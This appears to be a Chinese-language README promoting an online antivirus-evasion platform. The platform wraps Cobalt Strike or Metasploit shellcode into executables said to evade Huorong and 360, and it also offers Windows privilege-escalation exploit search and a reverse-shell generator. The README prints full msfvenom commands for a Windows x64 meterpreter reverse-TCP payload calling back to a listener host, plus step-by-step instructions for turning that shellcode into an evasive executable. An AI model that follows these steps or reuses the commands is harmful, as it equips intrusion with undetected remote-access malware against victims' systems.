<div align=center></div>


2020年初，汇总整理了远控免杀专题文章的工具篇、代码篇、白名单篇等，共70余篇文章。当时一方面是web狗从零开始学习免杀知识，另一方面也是想做一个免杀平台，文章写完后时隔两年免杀平台才有了点眉目，希望以后能逐渐完善。

**潮影在线免杀平台: http://bypass.tidesec.com**

免杀专题文章及工具：[https://github.com/TideSec/BypassAntiVirus](https://github.com/TideSec/BypassAntiVirus)

## 平台功能

目前平台主要实现了如下功能：`shellcode免杀`、`windows提权辅助`、`杀软在线对比`、`常见提权命令`、`反弹shell命令`。



## shellcode免杀

shellocde免杀使用了多种shellcode加载方式，目前以Go语言实现为主，后期会加入Powershell、C、nim等语言，对shellcode的处理使用了随机变量、AES/RC4/多重Base64/Base85/异或算法、伪造签名、随机图标、免杀分离、条件触发等方式，在本地测试的时候效果还是不错的，但发现放到在线平台后，可能样本被上传的比较多，免杀效果就比较一般了。但目前来说过火绒和360卫士还是没有问题的。

使用也比较方便，只需要从Cobaltstrike或Msfvenom生成shellcode，填写到shellcode框内，调整一些参数，便可以在线生成免杀的可执行文件。

### Cobaltstrike生成shellcode

在Cobaltstrike中`Attacks`-`packages`-`Payload Generator`。



然后选择好`Listener`之后，Output选`C`，下面选择`x64`，免杀效果更好。

查看生成的shellcode


把内容都整个复制到[潮影在线免杀平台](http://bypass.tidesec.com)的输入框里就可以。之后提交，等待几秒钟就可以下载了。






### Metasploit 生成shellcode

生成64位的payload c语言文件
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f c -o payload.c LHOST=1.1.1.1 LPORT=3333
```


或者直接生成hex格式
```
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o payload.c LHOST=1.1.1.1 LPORT=3333
```


上面生成的shellcode都可以直接复制到[潮影在线免杀平台](http://bypass.tidesec.com)，系统会自动处理后生成免杀程序。


## windows提权辅助

主要提供了Windows提权EXP在线搜索功能。



使用方式：运行cmd命令`systeminfo`获取信息，粘贴`systeminfo`信息或只粘贴补丁信息到编辑框内。



### 杀软在线对比

在windows系统cmd中执行`tasklist`，将进程信息输入即可。



## Reverse Shell

可快速生成各种反弹shell，如ncat、socat、bash、C、perl、php、powershell、python、ruby、golang、telnet等多种语言和程序，并可自定义进行base64编码等。




没有一劳永逸的免杀，只有精益求精的绕过，后续平台也会继续更新完善，早日将更多语言、更多绕过姿势也都并入到平台中。

**潮影在线免杀平台: http://bypass.tidesec.com**

## 关于Tide安全团队

Tide安全团队致力于分享高质量原创文章，研究方向覆盖网络攻防、Web安全、移动终端、安全开发、IoT/物联网/工控安全等多个领域，对安全感兴趣的小伙伴可以关注或加入我们。

Tide安全团队自研开源多套安全平台，如Tide(潮汐)网络空间搜索平台、潮启移动端安全管控平台、分布式web扫描平台WDScanner、Mars网络威胁监测平台、潮汐指纹识别系统、潮巡自动化漏洞挖掘平台、工业互联网安全监测平台、漏洞知识库、代理资源池、字典权重库、内部培训系统等等。

Tide安全团队自建立之初持续向CNCERT、CNVD、漏洞盒子、补天、各大SRC等漏洞提交平台提交漏洞，在漏洞盒子先后组建的两支漏洞挖掘团队在全国300多个安全团队中均拥有排名前十的成绩。团队成员在FreeBuf、安全客、安全脉搏、t00ls、简书、CSDN、51CTO、CnBlogs等网站开设专栏或博客，研究安全技术、分享经验技能。

对安全感兴趣的小伙伴可以关注Tide安全团队Wiki：[http://paper.TideSec.com](http://paper.TideSec.com) 或团队公众号。

<div align=center></div> 

